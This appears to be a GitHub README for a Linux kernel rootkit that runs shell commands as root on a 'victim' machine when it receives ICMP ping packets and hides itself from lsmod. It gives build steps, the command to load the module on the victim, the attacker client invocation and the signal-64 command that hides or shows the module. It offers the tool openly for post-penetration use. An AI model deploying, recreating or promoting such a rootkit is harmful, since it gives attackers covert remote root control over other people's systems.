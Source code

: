 Magic ping - shell execution

![Action Check Compiling](https://github.com/Zhang1933/linux-rootkit/actions/workflows/ci.yml/badge.svg)


<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) 

![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
![Tested on - 5.13.0-40-generic #45~20.04.1-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.13.0--40--generic_%2345~20.04.1--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>

## Features:

* Romete shell command execution by ping.
* Hiding (or Showing) Kernel Module from Userspace. 

## Asciinema Demo

[![asciicast](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM.svg)](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM)

## Compile 

**compile server(victim) kernel module:**

```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.ko
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```

Use `lsmod` to check.


## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
